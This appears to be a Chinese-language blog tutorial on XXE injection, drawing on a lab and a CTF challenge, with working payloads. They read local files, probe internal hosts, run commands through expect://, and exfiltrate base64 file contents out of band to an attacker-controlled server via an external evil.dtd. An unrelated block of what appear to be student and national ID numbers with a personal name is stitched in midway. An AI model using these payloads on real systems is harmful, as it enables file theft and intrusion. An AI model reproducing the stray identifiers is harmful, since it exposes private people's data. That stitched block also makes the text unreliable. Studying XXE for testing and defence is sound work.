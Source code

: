 #### 前言

[![bGuFln.png](https://s4.ax1x.com/2022/03/02/bGuFln.png)](https://imgtu.com/i/bGuFln)

xxe漏洞在我为期不长的挖洞生涯中也没有遇到过，所以就想着总结一下，撰写此文以作为记录，加深自己对xxe漏洞的认识，实验靶场是xxe-lab和[[NCTF2019]Fake XML cookbook](https://buuoj.cn/challenges#[NCTF2019]Fake%20XML%20cookbook)这题。

#### 基本介绍

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素

对内声明

```xml
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
```

对外声明

```xml
<!DOCTYPE note SYSTEM "note.dtd">

<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

一般实体：<!ENTITY 实体名称 "实体的值">

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
]>

```

参数实体：<!ENTITY 实体名称 SYSTEM "URI">

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```

这里SYSTEM后面的url分为以下几种方式，利用协议攻击

协议如下：

![](https://z3.ax1x.com/2021/10/11/5Z4XSP.png)

![PHP其他协议](https://z3.ax1x.com/2021/10/11/5Zq3UU.png)

基本可以达到和SSRF一样的效果，探测内网端口(http/https)，DDOS，读取任意文件(file)，命令执行(expect)等

![](https://s4.ax1x.com/2021/12/28/Tr08EQ.png)

##### 读文件

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<x>&xxe;</x>
```



##### 内网探针或攻击内网应用

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://3z5vcc.dnslog.cn" >
]>
<x>&rabbit;</x>
```



##### RCE

```
该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://whoami" >
]>
<x>&xxe;</x>
```



##### 引入外部实体 dtd

```
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:8081/evil2.dtd">
%file;
]>
<x>&send;</x>
evil2.dtd:
<!ENTITY send SYSTEM "file:///d:/test.txt">
```





~~~
2019214324
11243510
530381200111243510


2019214323
01090014
360313200101090014


1000002379
08290617
232125197208290617

王涵
2020222859
08230129
231121200208230129

示波器和长度测量
~~~

伪协议

~~~
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
]>
<x>&xxe;</x>
~~~







##### 无回显-读取文件

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=test.txt">
<!ENTITY % dtd SYSTEM "http://192.168.0.103:8081/test.dtd">
%dtd;
%send;
]>
test.dtd：
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://192.168.0.103:8081/?data=%file;'>"
>
%payload;
```

##### 协议-读文件（绕过）

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]>
<x>&f;</x>
```

##### [XXEinjector](https://www.cnblogs.com/bmjoker/p/9614990.html)

具体参数自查

##### CTF

###### 读靶机文件

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY rabbit SYSTEM "file:///flag" >
]>
<user><username>&rabbit;</username><password>123</password></user>
```



###### 恶意引入外部参数实体

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://vps-ip/hack.dtd">
    %file;
]>
<test>&hhh;</test>
```



```
<!ENTITY hhh SYSTEM 'file:///etc/passwd'>
```

##### 无回显

###### OOB

先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。

```
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php">
    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
    %dtd;
    %send;
]>
```

evil.dtd的内容，内部的%号要进行实体编码成&#x25。

**`<!ENTITY % all    "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>">%all;`

访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。